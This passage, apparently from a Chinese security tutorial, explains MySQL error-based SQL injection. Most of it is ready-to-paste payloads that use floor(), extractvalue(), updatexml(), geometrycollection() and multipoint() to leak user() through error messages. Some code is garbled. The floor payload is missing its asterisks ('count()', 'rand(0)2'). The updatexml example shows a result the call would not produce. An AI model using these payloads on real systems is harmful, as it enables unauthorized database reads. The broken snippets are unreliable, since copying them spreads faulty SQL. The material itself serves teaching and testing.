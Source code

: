 ```xml
</users>
```
我希望修改其中用户 id=1 的名字，将其从 John 修改为 Jack。你可以使用 updatexml() 函数实现这个操作。修改语句：
```sql
SELECT updatexml('<users><user><id>1</id><name>John</name></user><user><id>2</id><name>Jane</name></user></users>',
                 '/users/user[id="1"]/name',
                 'Jack');
```
以上命令解读：
- XML 文档：<users>...</users> 是传递的 XML 数据。
- XPath 表达式：/users/user[id="1"]/name 是 XPath 表达式，用于定位 id=1 的用户的 name 节点。
- 新值：Jack 是想要插入的新名字。
执行结果：
```xml
<users>
    <user>
        <id>1</id>
        <name>Jack</name> <!-- 已修改 -->
    </user>
    <user>
        <id>2</id>
        <name>Jane</name>
    </user>
</users>
```
## 0x05 updatexml函数的弊端
采用updatexml报错函数只能显示32字符长度的内容，如果获取内容超过32字符长度，就要采用字符串截取方法，每次只获取32个字符的长度。

## 0x06 其他MySQL支持报错的函数
### 1. floor()
```sql
select * from users where user_id=1 and (select 1 from (select count(),concat(user(),floor(rand(0)2))x from information_schema.tables group by x)a);
```

### 2. extractvalue()
extractvalue() 函数的主要作用是从 XML 文档中提取特定节点的值。它使用 XPath 表达式来定位 XML 文档中的特定节点或属性，并返回相应的值。通过故意构造的无效 XPath 表达式引发错误，以便回显数据库用户信息。注意extractvalue函数传入两个值即可。  
```sql
select * from users where user_id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)));
```
### 3. updatexml()
updatexml函数上面介绍过了，是更新 XML 文档的一种方式，需要传入三个参数，利用Xpath错误来回显关键信息。
```sql
select * from users where user_id=1 and (updatexml(1,concat(0x7e,(select user()),0x7e),1));
```
### 4. geometrycollection()
GEOMETRYCOLLECTION() 函数的作用是在 MySQL 中创建一个几何对象的集合。该函数允许将不同类型的几何对象（如 POINT、LINESTRING、POLYGON 等）组合成一个集合。几何对象可以是点、线、或多边形等，这些对象存储在一个集合中用于空间数据操作。正常使用方法如下述第一个sql语句：
```sql
select geometrycollection(point(1,1),point(1,2));

select * from test where id=1 and geometrycollection((select * from(select * from(select
user())a)b));
```
### 5.multipoint()
MULTIPOINT() 是 MySQL 中用于表示多个点（POINT）的几何函数，通常用于地理信息系统（GIS）中处理多点集合。每个点由一个 X 坐标（经度）和 Y 坐标（纬度）组成，MULTIPOINT 是多个 POINT 组成的集合。
```sql
select * from test where id=1 and multipoint((select * from(select * from(select user())a)b));
```